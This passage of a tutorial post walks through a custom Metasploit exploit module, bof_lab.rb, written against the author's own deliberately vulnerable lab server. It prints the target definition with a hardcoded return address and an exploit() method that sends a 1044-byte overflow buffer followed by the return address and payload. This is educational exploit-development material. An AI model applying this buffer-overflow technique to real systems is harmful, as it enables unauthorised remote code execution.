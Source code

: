 Now, I assume that you have successfully set up the development environment for Metasploit :-)

Just to give you some sense of how the codes are organized, exploit modules are located under `metasploit-framework/modules/exploits` directory, payloads are under `metasploit-framework/modules/payloads`, and the core library for Metasploit is located under `metasploit-framework/lib/msf`.

For this article, I will create a module called `bof_lab.rb` under `metasploit-framework/modules/exploits/custom` directory. It can be downloaded from [here](https://github.com/taishi8117/bof_lab/blob/master/vuln_server/bof_lab.rb). 
If you want to test it with Metasploit Framework, make sure `bof_lab.rb` is copied somewhere under `metasploit-framework/modules/exploits`, so it is automatically loaded!

I will also not elaborate on the details of how to develop a custom module, since there are a lot of documentation out there. You should probably read [this](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit) first, if you are interested.
Instead, I will briefly explain the code.

First, I included Metasploit's TCP library (`include Msf::Exploit::Remote::Tcp`), as I need to connect to a TCP server.

In [`initialize()`](https://github.com/taishi8117/bof_lab/blob/master/vuln_server/bof_lab.rb#L14), you need to define some information about the exploit module, such as name, description, payload encoding and target architecture. 
In this case, I will not use any payload encoding for the sake of simplicity, and the target architecture would be `linux x86` (this is because I compiled the server in 32-bit mode).
I will also define `Ret` to indicate where the payload will be located (which is `0xffffcfe0` as we found earlier).

```
'Targets'        => 
        [
          [
            'Linux x86',
            {
              'Arch' => ARCH_X86,
              'Ret'      => 0xffffcfe0
            }
          ]
        ],
```

[`check()`](https://github.com/taishi8117/bof_lab/blob/master/vuln_server/bof_lab.rb#L47) method is for testing whether a target is vulnerable. But for the sake of simplicity, I made it to return that the target host is always vulnerable.

Now, [`exploit()`](https://github.com/taishi8117/bof_lab/blob/master/vuln_server/bof_lab.rb#L51) is the core part of this module, as the name suggests obviously. 

```ruby
def exploit
    connect

    print_status("Sending #{payload.encoded.length} byte payload...")

    # Build the buffer for transmission
    buf = "A" * 1044
    buf += [ target.ret ].pack('V')
    buf += payload.encoded

    # Send it off
    sock.put(buf)
    sock.get

    handler
end
```
